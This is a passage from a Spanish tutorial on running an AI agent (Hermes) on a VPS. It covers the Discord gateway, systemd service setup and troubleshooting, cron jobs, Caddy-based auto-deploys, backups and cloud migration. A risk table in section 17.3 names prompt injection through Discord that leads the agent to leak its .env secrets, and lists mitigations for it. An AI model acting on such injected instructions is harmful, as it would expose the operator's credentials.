> `DISCORD_HOME_CHANNEL` es opcional. Según la doc oficial, sirve para que Hermes envíe allí salidas proactivas como cron jobs, recordatorios y notificaciones. También puedes fijarlo luego desde Discord con el comando `/sethome`.

### 10.5. Lanza el gateway

Solo después de haber configurado Discord en el paso anterior:

```bash
grep '^DISCORD_' ~/.hermes/.env
hermes gateway
```

`grep` te sirve para verificar antes de arrancar que al menos quedaron guardadas estas variables:

- `DISCORD_BOT_TOKEN`
- `DISCORD_ALLOWED_USERS`

Si al final del asistente te pregunta:

```text
Install the gateway as a systemd service? (runs in background, starts on boot) [Y/n]:
```

en un **VPS** lo correcto es:

- responder **`n`** dentro del asistente
- terminar el setup normal
- y luego instalar el servicio del sistema manualmente con `sudo`

Esto no contradice la recomendación de Hermes de usar `systemd` en un host headless. Lo que ocurre es simplemente que **el wizard no puede crear un servicio de sistema desde tu sesión de usuario sin privilegios**.

> Matiz importante de la doc oficial:
>
> - en portátiles o máquinas de desarrollo, suele bastar el **user service**
> - en un **VPS**, lo apropiado es el **system service** / servicio de arranque
>
> Si el asistente te muestra este aviso, es normal:
>
> ```text
> System service install requires sudo, so Hermes can't create it from this user session.
> After setup, run: sudo "$(command -v hermes)" gateway install --system --run-as-user hermes
> Then start it with: sudo "$(command -v hermes)" gateway start --system
> ```
>
> Más abajo, en la sección 13, dejamos esto explicado con calma y con comandos de verificación.

A los pocos segundos el bot aparece online en tu servidor. Pruébalo:

> @hermes-agent hola, dime tu modelo actual

Debería responder y, si miras los logs (`hermes logs gateway`), verás los eventos.

📸 [images/13-discord-first-message.png]

### 10.6. Nota sobre browser automation

En esta guía hemos dejado **browser automation como siguiente iteración**, no como parte validada del setup base. Por tanto, en esta fase céntrate en comprobar:

- que el bot responde en Discord
- que usa el modelo correcto
- que el gateway arranca y se mantiene estable

Si más adelante quieres validar navegación real con navegador, `agent-browser` / CDP / proveedor cloud queda como ampliación posterior.

> Cuando confirmes que funciona, **ctrl+C**: lo convertiremos en servicio en el paso 13.

---

## 11. Estructura de carpetas para proyectos

Vamos a establecer una convención que Hermes respetará vía `MESSAGING_CWD`.

```bash
mkdir -p /home/hermes/projects
mkdir -p /home/hermes/lab/templates
mkdir -p /home/hermes/lab/articles
```

Estructura recomendada por proyecto:

```
/home/hermes/projects/<slug-proyecto>/
├── docker-compose.yml         # despliegue del prototipo
├── Dockerfile                 # imagen del servicio
├── src/                       # código
├── tests/
├── README.md                  # docs auto-generadas por Hermes
├── ARTICLE.md                 # borrador de artículo de blog/Medium
├── CHANGELOG.md
├── .env.example
└── .hermes/                   # notas del agente para futuras sesiones
    ├── decisions.md
    └── todo.md
```

Configura el cwd por defecto cuando Hermes recibe mensajes:

```bash
echo 'MESSAGING_CWD=/home/hermes/projects' >> ~/.hermes/.env
echo 'TERMINAL_CWD=/workspace/projects' >> ~/.hermes/.env
```

Crea una **plantilla cookiecutter-style** que el agente clonará al iniciar cada proyecto:

```bash
mkdir -p /home/hermes/lab/templates/web-app
cat > /home/hermes/lab/templates/web-app/docker-compose.yml <<'EOF'
services:
  app:
    build: .
    restart: unless-stopped
    networks: [caddy_net]
    labels:
      caddy: "{{SLUG}}.{{DOMAIN}}"
      caddy.reverse_proxy: "{{HOSTNAME}} {{PORT}}"

networks:
  caddy_net:
    external: true
EOF
```

(Ajusta cuando definamos Caddy en el paso 14.)

---

## 12. Heartbeats, cron y ejecución desatendida

Hermes tiene **cron scheduler integrado** para ejecutar prompts en background y entregar resultados a cualquier plataforma (Discord, Telegram, archivo, etc.).

### 12.1. Crear un job programado

```bash
hermes cron add "every 6 hours" \
  --prompt "Revisa /home/hermes/projects, cierra TODOs completados, actualiza README de cada proyecto y manda un resumen al canal #lab-status de Discord." \
  --deliver discord:#lab-status \
  --name maintenance-heartbeat
```

Otro ejemplo (artículo diario):

```bash
hermes cron add "0 22 * * *" \
  --prompt "Elige el proyecto con más cambios hoy y redacta un borrador de artículo Medium en su ARTICLE.md siguiendo el template /home/hermes/lab/templates/article.md" \
  --name daily-article
```

Lista y gestiona:

```bash
hermes cron list
hermes cron disable maintenance-heartbeat
hermes cron tick   # forzar una ejecución manual para testear
```

> Refs: cron / scheduler en [docs/user-guide/configuration](https://hermes-agent.nousresearch.com/docs/user-guide/configuration/) y [docs/reference/cli-commands](https://hermes-agent.nousresearch.com/docs/reference/cli-commands).

### 12.2. Heartbeat manual con `quick_commands`

Para checks instantáneos sin gastar tokens:

```yaml
# en ~/.hermes/config.yaml
quick_commands:
  status:
    type: exec
    command: "systemctl status hermes-gateway --no-pager | head -20"
  disk:
    type: exec
    command: "df -h /"
  containers:
    type: exec
    command: "docker ps --format '{{.Names}}\t{{.Status}}'"
```

Desde Discord: `/status`, `/disk`, `/containers` se resuelven sin llamar al modelo.

---

## 13. Convertir Hermes en servicio systemd 24/7

En un VPS, la documentación oficial de Hermes recomienda usar el **system service** del propio gateway en vez de depender de una sesión interactiva abierta.

Si durante `hermes gateway setup` viste este aviso:

```text
System service install requires sudo, so Hermes can't create it from this user session.
After setup, run: sudo "$(command -v hermes)" gateway install --system --run-as-user hermes
Then start it with: sudo "$(command -v hermes)" gateway start --system
```

es totalmente normal: el asistente corre como tu usuario `hermes`, pero **crear un servicio de sistema requiere `sudo`**.

### 13.1. Instala el servicio de sistema oficial de Hermes

```bash
sudo "$(command -v hermes)" gateway install --system --run-as-user hermes
sudo "$(command -v hermes)" gateway start --system
sudo "$(command -v hermes)" gateway status --system
```

> En muchos Ubuntu, `sudo` no hereda `~/.local/bin`, así que `sudo hermes ...` puede fallar con `command not found` aunque `hermes` funcione bien en tu shell. Por eso aquí usamos `sudo "$(command -v hermes)" ...`, que resuelve primero la ruta real del binario.

Esto crea un servicio `systemd` de arranque que:

- corre en background
- arranca con el servidor
- sigue funcionando aunque cierres la sesión SSH
- ejecuta el gateway como usuario `hermes`

> La propia doc oficial recomienda **user service** para portátiles/dev boxes y **system service** para VPS o hosts headless.

### 13.2. Verifica que está bien levantado

```bash
sudo "$(command -v hermes)" gateway status --system
journalctl -u hermes-gateway -f
```

Si quieres pararlo o reiniciarlo:

```bash
sudo "$(command -v hermes)" gateway stop --system
sudo "$(command -v hermes)" gateway start --system
```

### 13.2.1. Si ves `status=75` o “Gateway process is running for this profile”

Este caso nos salió de verdad durante la instalación en el VPS. La causa típica es:

- ya había un `hermes gateway` lanzado manualmente en foreground / tmux / nohup
- luego intentas arrancar además el servicio `systemd`
- Hermes detecta dos gateways para el mismo perfil y bloquea el arranque limpio

Síntomas típicos:

- `gateway status --system` muestra `status=75`
- aparece `Restart pending`
- Hermes avisa: `Gateway process is running for this profile, but the service is not active`

Flujo correcto para arreglarlo:

```bash
# 1) parar el servicio systemd si está en bucle
sudo "$(command -v hermes)" gateway stop --system

# 2) cerrar cualquier gateway manual del perfil actual
"$(command -v hermes)" gateway stop

# 3) comprobar que ya no quedan procesos sueltos
sudo "$(command -v hermes)" gateway status --system

# 4) arrancar de nuevo solo el servicio systemd
sudo "$(command -v hermes)" gateway start --system
sudo "$(command -v hermes)" gateway status --system
```

En nuestro caso real del VPS, la secuencia que terminó funcionando fue esta:

```bash
sudo "$(command -v hermes)" gateway stop --all
pgrep -af "hermes.*gateway|hermes_cli.main gateway|gateway run"
sudo systemctl reset-failed hermes-gateway
sudo "$(command -v hermes)" gateway start --system
sudo "$(command -v hermes)" gateway status --system
```

Y el estado bueno final que quieres ver es algo como:

```text
Active: active (running)
✓ System gateway service is running
✓ System service starts at boot without requiring systemd linger
```

Si aun así Hermes sigue diciendo que hay procesos manuales vivos, revisa los logs completos:

```bash
sudo journalctl -u hermes-gateway -n 100 -l
```

Y como último recurso, mata los gateways del perfil antes de volver a arrancar el servicio:

```bash
"$(command -v hermes)" gateway stop --all
sudo "$(command -v hermes)" gateway start --system
```

> No mezcles a la vez:
>
> - un `hermes gateway` lanzado manualmente
> - y el `systemd` service
>
> Elige uno. En este tutorial, en VPS, el que queremos dejar al final es **solo el servicio `systemd`**.

### 13.3. Sobre cron y tareas en background

Según la documentación actual de Hermes, `hermes gateway` ya gestiona también el scheduler de cron del gateway, así que **no necesitas un segundo servicio separado** para cron en este flujo estándar.

### 13.4. Evita duplicar servicios

No dejes a la vez:

- un `hermes gateway` corriendo en foreground en una terminal
- y el servicio `systemd`

Y evita también tener instalados a la vez el **user service** y el **system service**, porque Hermes avisa de que eso vuelve ambiguos los comandos `start/stop/status`.

---

## 14. Despliegue de proyectos generados (Caddy + Docker)

Vamos a montar **Caddy** como reverse proxy con HTTPS automático (Let's Encrypt) para que cada prototipo sea accesible vía `https://<slug>.tu-dominio.com`.

### ¿Por qué Caddy y no Nginx?

Ambos son excelentes; cumplen la misma función (reverse proxy + TLS). Para este caso de uso **Caddy gana por encaje**, no por rendimiento crudo:

| Criterio | Caddy (con `caddy-docker-proxy`) | Nginx |
| -------- | -------------------------------- | ----- |
| **HTTPS** | Let's Encrypt **automático**, sin tocar nada | Hay que montar `certbot` + cron de renovación + bloque `server` por host |
| **Añadir un nuevo proyecto** | Pegas `labels: caddy: foo.lab.dom` en el `docker-compose.yml` y listo. **Caddy detecta el contenedor y emite el cert**. | Editas un nuevo bloque `server { … }`, recargas `nginx -s reload`, lanzas `certbot` |
| **Hermes haciendo deploys autónomos** | El agente solo escribe el compose con labels. Cero entendimiento de la config del proxy | El agente tendría que editar `/etc/nginx/conf.d/*.conf` y rezar para no romper otros sites |
| **HTTP/3, OCSP stapling, HSTS** | Activos por defecto | Configuración manual |
| **Config file** | 1 archivo (o etiquetas Docker, en nuestro caso 0) | Por convención: 1 archivo por sitio |
| **Rendimiento bruto** | Suficiente sobrado para un lab. Diferencia con Nginx: irrelevante a este tráfico | Marginalmente más rápido en benchmarks de millones de req/s |
| **Memoria** | ~30 MB por proceso | ~10 MB |
| **Curva de aprendizaje** | Casi cero | Mayor (sintaxis, contextos, locations…) |

**Resumen:** elegimos Caddy porque cada vez que Hermes genera un nuevo prototipo, basta con que añada 2 líneas de etiquetas al `docker-compose.yml` y el subdominio funciona en HTTPS sin más intervención humana ni del agente. Con Nginx, cada deploy implicaría editar configuración del proxy, lo que añade puntos de fallo.

> **Si prefieres Nginx**, la alternativa más cercana es [`nginx-proxy/nginx-proxy`](https://github.com/nginx-proxy/nginx-proxy) + [`acme-companion`](https://github.com/nginx-proxy/acme-companion). Funciona también con etiquetas (`VIRTUAL_HOST=foo.lab.dom`), pero son dos contenedores en vez de uno y la experiencia no llega a la pulcritud de Caddy. Si lo eliges, sustituye los pasos 14.2-14.4; la lógica de la guía es idéntica.

### 14.1. Compra/configura un dominio

Apunta un wildcard `*.lab.tu-dominio.com` (registro `A`) a la IP del VPS. Cualquier registrar (Namecheap, Cloudflare, OVH).

### 14.2. Red Docker compartida

```bash
docker network create caddy_net
```

### 14.3. Caddy con plugin Docker

```bash
mkdir -p /home/hermes/infra/caddy
cd /home/hermes/infra/caddy
cat > docker-compose.yml <<'EOF'
services:
  caddy:
    image: lucaslorentz/caddy-docker-proxy:ci-alpine
    container_name: caddy
    restart: unless-stopped
    ports:
      - "80:80"
      - "443:443"
    environment:
      - CADDY_INGRESS_NETWORKS=caddy_net
    networks:
      - caddy_net
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
      - caddy_data:/data
      - caddy_config:/config

networks:
  caddy_net:
    external: true

volumes:
  caddy_data:
  caddy_config:
EOF
docker compose up -d
docker logs caddy
```

### 14.4. Cómo Hermes despliega un proyecto

Cada proyecto generado por Hermes incluye un `docker-compose.yml` con etiquetas Caddy:

```yaml
services:
  app:
    build: .
    restart: unless-stopped
    networks: [caddy_net]
    labels:
      caddy: "miproyecto.lab.tu-dominio.com"
      caddy.reverse_proxy: "{{upstreams 8080}}"

networks:
  caddy_net:
    external: true
```

Cuando Hermes hace `docker compose up -d` en la carpeta del proyecto, Caddy detecta el nuevo contenedor en `caddy_net` y emite cert Let's Encrypt automáticamente.

### 14.5. Skill de despliegue

Pide a Hermes (en Discord) que cree un *skill* o *quick command* `deploy <slug>` que ejecute:

```bash
cd /workspace/projects/<slug> && \
docker compose pull && \
docker compose up -d --build && \
docker compose ps
```

---

## 15. Documentación y artículos automáticos por proyecto

### 15.1. Plantilla de artículo

```bash
mkdir -p /home/hermes/lab/templates
cat > /home/hermes/lab/templates/article.md <<'EOF'
# {{TITLE}}

> Tags: #ai #docker #hermes #lab
> Generado el {{DATE}} por Hermes Agent

## Problema

## Idea / hipótesis

## Stack y decisiones técnicas

## Cómo lo construí (paso a paso)

## Demo

```bash
# comandos para reproducirlo
```

## Lo que aprendí

## Próximos pasos

## Apéndice: arquitectura


EOF
```

### 15.2. Prompt-system para artículos

Añade un *personality* específico para que Hermes adopte tono de blog técnico:

```bash
hermes config set personality.blog_writer "Eres un ingeniero de software senior que escribe en Medium. Tono claro, con código, sin filler. Estructura: problema → idea → implementación → demo → lo aprendido → próximos pasos."
```

Uso desde Discord:
```
/personality blog_writer
@Hermes lee /workspace/projects/url-shortener y escribe ARTICLE.md siguiendo /workspace/lab/templates/article.md
```

### 15.3. README auto-generado

Cron diario:

```bash
hermes cron add "0 21 * * *" \
  --prompt "Para cada proyecto en /workspace/projects, si su README.md tiene >7 días o el último commit no está reflejado, regenéralo desde el código. Mantén siempre las secciones: Setup, Run, Architecture, API, Troubleshooting." \
  --name nightly-readme
```

---

## 16. Flujo completo de ejemplo: de idea en Discord a prototipo desplegado

**Tú (Discord, DM o canal con @mención):**
> @hermes-agent quiero un acortador de URLs minimalista en Go con SQLite, dashboard en /admin protegido por basic auth, métricas en /metrics y desplegado en `urls.lab.midominio.com`. Slug: `urlshort`.

**Lo que ocurre por dentro:**

1. **Gateway Discord** recibe el evento, abre sesión con `MESSAGING_CWD=/workspace/projects`.
2. Hermes (DeepSeek V4 Pro) decide arquitectura, crea `/workspace/projects/urlshort/`.
3. **Subagentes** (DeepSeek V4 Flash) en paralelo: scaffolding, tests, Dockerfile, docker-compose.
4. Hermes hace `git init`, `go mod init`, escribe código, ejecuta `go test ./...` dentro del **contenedor sandbox**.
5. Si los tests pasan, lanza `docker compose up -d --build`.
6. Caddy detecta el nuevo contenedor, emite cert TLS, expone en `urls.lab.midominio.com`.
7. Hermes prueba con `curl https://urls.lab.midominio.com/health` y reporta:

   > ✅ Desplegado. https://urls.lab.midominio.com — admin /admin (user: admin, pass guardado en .env). Tests 14/14 pasan. README + ARTICLE escritos.

8. El cron `daily-article` (22:00) detectará el proyecto reciente, escribirá `ARTICLE.md` con el template y te enviará el borrador a `#lab-status`.

📸 [images/16-flow-end-to-end.png]

---

## 17. Seguridad, backups y límites

### 17.1. Lo no negociable

- ✅ SSH solo con clave, sin root, fail2ban activo.
- ✅ UFW + Cloud Firewall (doble capa).
- ✅ `terminal.backend: docker` para que Hermes nunca toque el host directamente.
- ✅ `approvals.mode: smart` + `security.redact_secrets: true` + `tirith_enabled: true`.
- ✅ `DISCORD_ALLOWED_USERS` siempre poblado (sin esto, el gateway deniega por defecto).
- ✅ `chmod 600 ~/.hermes/.env`.
- ✅ Backups diarios de Hetzner activos.
- ✅ Límite de gasto en OpenRouter (Settings → Limits).

### 17.2. Backups extra (offsite)

```bash
sudo apt install -y restic
restic init --repo /home/hermes/backups   # local
# Para offsite: usa Backblaze B2 o S3 — ~$0.005/GB/mes
restic -r b2:tu-bucket:hermes backup /home/hermes/projects /home/hermes/.hermes
```

Cron:
```bash
crontab -e
# 0 3 * * * restic -r ... backup /home/hermes/projects /home/hermes/.hermes
```

### 17.3. Riesgos conocidos de esta arquitectura

| Riesgo | Mitigación |
|--------|-----------|
| Prompt injection desde Discord exfiltra .env | `DISCORD_ALLOWED_USERS` restringe quién habla; `redact_secrets` enmascara antes de enviar al modelo |
| Costes OpenRouter desbocados | Hard limit en OpenRouter + alerta + `agent.max_turns` + delegation a flash |
| Hermes ejecuta comando destructivo | Sandbox Docker + `approvals.mode: smart` |
| Quedas sin disco con muchos proyectos | `docker system prune -a -f --filter "until=72h"` semanal + cron de aviso al 80% |
| Bot token leakeado | Rotación inmediata desde Developer Portal; `hermes config rotate DISCORD_BOT_TOKEN` |
| OpenRouter caído | `fallback_model` en config + `provider_routing.sort: throughput` |

---

## 18. Migración a producción (Sliplane, GCP, Azure)

Cuando un prototipo merece pasar a producción, los proyectos ya están "12-factor-friendly":

### 18.1. Preparación común

- `Dockerfile` multi-stage minimal.
- Variables de entorno vía `.env` (jamás hardcoded).
- `docker-compose.yml` solo para dev/lab; producción usa el **Dockerfile** directo.
- Healthcheck `/health` y `/metrics`.

### 18.2. Sliplane (más simple)

[Sliplane](https://sliplane.io) acepta un repo Git con Dockerfile:
1. Push del proyecto a GitHub.
2. Sliplane → New Service → conecta repo → detecta Dockerfile → asigna subdominio.
3. Variables de entorno desde el panel.
4. Costes: ~9 €/servicio.

### 18.3. Google Cloud Run

```bash
gcloud auth login
gcloud builds submit --tag gcr.io/PROJECT/urlshort
gcloud run deploy urlshort --image gcr.io/PROJECT/urlshort --region europe-west1 --allow-unauthenticated
```

Cloud Run escala a cero — perfecto para prototipos con tráfico bajo.

### 18.4. Azure Container Apps

```bash
az containerapp up \
  --name urlshort \
  --resource-group hermes-prod \
  --location westeurope \
  --image ghcr.io/tuusuario/urlshort:latest \
  --ingress external --target-port 8080
```

### 18.5. Pide a Hermes que migre

```
@hermes-agent migra urlshort a Cloud Run en europe-west1, configura el secreto DB_URL desde Secret Manager, y dame el nuevo dominio.
```

---

## 19. Alternativas si Hermes no encaja

| Opción | Cuándo elegirla |
|--------|-----------------|
| **[Letta](https://letta.com) (ex MemGPT)** | Necesitas memoria estructurada/tool más avanzada y UI propia |
| **[OpenHands](https://github.com/All-Hands-AI/OpenHands)** | Quieres un agente devops/coding-only con UI web rica |
| **[Aider](https://aider.chat)** | Sólo te interesa pair-programming en CLI sobre repos Git |
| **[goose](https://block.github.io/goose/) (Block)** | Agente coding extensible vía MCP con multi-LLM |
| **[Claude Code](https://docs.claude.com/en/docs/claude-code)** + bot Discord propio | Pagas suscripción Claude y montas un wrapper Discord (más DIY) |
| **[swarmclaw](https://github.com/swarmclawai/swarmclaw)** | Multi-agente self-hosted con MCP, schedules y 23+ providers |
| **n8n + LLM nodes** | Si lo tuyo es workflow visual más que prompts conversacionales |

Hermes gana cuando quieres **un solo proceso** que cubra mensajería + memoria + skills + cron + docker + multi-modelo. Si necesitas separar concerns, Letta + un orquestador propio escala mejor.

---

## 20. Cómo convertir esto en artículo de Medium

### 20.1. Estructura sugerida del artículo

1. **Hook (1-2 párrafos)**: "Llevo X tiempo queriendo un sitio donde tirar ideas a un agente y despertar al día siguiente con un prototipo desplegado. Esto es cómo lo monté por <coste/mes>."
2. **Por qué Hetzner + Hermes + OpenRouter** (90 segundos): coste, control, multi-modelo.
3. **Arquitectura** (diagrama del paso 1).
4. **Walkthrough** condensado: VPS → SSH → Docker → Hermes → OpenRouter → Discord → Caddy.
5. **El flujo en acción** (paso 16, con capturas de Discord).
6. **Costes reales** (un mes): VPS 6,80 € + dominio 1 € + OpenRouter ~10-30 € según uso = ~20–40 €/mes.
7. **Lo que aprendí / dolores reales** (esta sección la rellenas con lo que falle al seguir esta guía).
8. **Próximos pasos**: skills propias, MCP servers, vector store externo.
9. **Repo y código**: linkea este repo (`hermes-agent-utilities`).

### 20.2. Capturas mínimas para el artículo

Lista de imágenes a poner en `images/` (si me das el archivo, lo enlazo):

- `images/02-hetzner-plans.png` — comparador de planes
- `images/05-hetzner-create-server.png` — pantalla de creación
- `images/07-openrouter-key.png` — generación de API key
- `images/11-discord-bot-intents.png` — intents activados
- `images/12-discord-invite.png` — link de invitación
- `images/13-discord-first-message.png` — primer "hola"
- `images/16-flow-end-to-end.png` — captura del flujo completo
- `images/20-deployed-app.png` — el prototipo final desplegado

### 20.3. Pídeselo a Hermes

```
@hermes-agent lee este repo y /home/hermes/projects/* y escribe un artículo Medium llamado
"Cómo monté un laboratorio de prototipos con Hermes Agent en Hetzner por 7€/mes"
siguiendo /home/hermes/lab/templates/article.md, en español, tono first-person técnico,
unos 1800 palabras, con bloques de código copiables y referencias a la docu oficial.
Guárdalo en /home/hermes/lab/articles/medium-hermes-hetzner.md
```

---

## 21. Checklist final

Antes de declarar el laboratorio "listo":

- [ ] VPS Hetzner CX32 creado, IP fija anotada.
- [ ] Usuario `hermes` con sudo, root SSH bloqueado.
- [ ] UFW + Cloud Firewall (22, 80, 443).
- [ ] Fail2ban activo.
- [ ] Docker + Compose instalados, `docker run hello-world` OK.
- [ ] Hermes Agent instalado (`hermes doctor` sin errores).
- [ ] OpenRouter API key cargada y `hermes` responde con DeepSeek V4 Pro.
- [ ] `terminal.backend: docker` activo, `approvals.mode: smart`.
- [ ] Discord bot creado, intents activados, `hermes gateway` responde.
- [ ] `hermes-gateway.service` enable + running.
- [ ] Caddy levantado en red `caddy_net`, dominio wildcard apuntando.
- [ ] `/home/hermes/projects/` y plantillas creados.
- [ ] Cron `maintenance-heartbeat` y `daily-article` registrados.
- [ ] Backups Hetzner + restic offsite.
- [ ] Límite de gasto en OpenRouter.
- [ ] Primer prototipo end-to-end (paso 16) probado.
- [ ] Captura de pantallas en `images/`.
- [ ] Borrador de artículo Medium en `/home/hermes/lab/articles/`.

---

## Apéndice A: comandos útiles del día a día

```bash
hermes status               # estado general
hermes logs gateway -f      # logs en vivo del gateway
hermes sessions list        # sesiones recientes
hermes memory search "..."  # busca en memoria
hermes cron list
hermes skills list
hermes update               # actualizar a última versión
hermes backup               # zip de config y datos

docker ps
docker system df
docker system prune -a -f --filter "until=72h"

systemctl status hermes-gateway
journalctl -u hermes-gateway -f
```

## Apéndice B: troubleshooting rápido

| Síntoma | Diagnóstico | Solución |
|---------|-------------|----------|
| Bot online pero no responde | Falta Message Content Intent | Activarlo en Developer Portal y reiniciar gateway |
| `hermes gateway` se cierra al cabo de 1 min | Token Discord rotado/expirado | Reset Token + actualizar `.env` |
| Modelos lentísimos | `provider_routing.sort: throughput` no aplicado | Reinicia gateway tras editar `config.yaml` |
| Error "context length exceeded" | Sesión enorme | `/compress` o `/new` desde Discord |
| Costes disparados en OpenRouter | Sin delegation a flash | Confirma sección `delegation:` en config |
| `docker compose up` falla con permiso denegado | Usuario no en grupo docker | `sudo usermod -aG docker hermes` y relogin |
| Caddy no emite certificado | DNS aún no propagado o puerto 80 bloqueado | `dig <slug>.lab.dom +short`, revisa firewall |
| Hermes pide aprobaciones constantes | `approvals.mode: manual` | Cambia a `smart` |

## Apéndice C: referencias oficiales

- **Docs Hermes Agent:** <https://hermes-agent.nousresearch.com/docs>
- **Quickstart:** <https://hermes-agent.nousresearch.com/docs/getting-started/quickstart/>
- **Configuration:** <https://hermes-agent.nousresearch.com/docs/user-guide/configuration/>
- **Providers (OpenRouter):** <https://hermes-agent.nousresearch.com/docs/integrations/providers>
- **Discord:** <https://hermes-agent.nousresearch.com/docs/user-guide/messaging/discord>
- **CLI Reference:** <https://hermes-agent.nousresearch.com/docs/reference/cli-commands>
- **FAQ:** <https://hermes-agent.nousresearch.com/docs/reference/faq>
- **Repo + ejemplo de config:** <https://github.com/NousResearch/hermes-agent>
- **OpenRouter:** <https://openrouter.ai/docs>
- **DeepSeek V4 Pro:** <https://openrouter.ai/deepseek/deepseek-v4-pro>
- **Hetzner Cloud:** <https://docs.hetzner.com/cloud/>

---

> **Siguiente paso:** ve a la sección 2 y elige el plan. Cuando crees el servidor, pega aquí la salida de `hermes doctor` y avanzamos con la configuración del modelo.
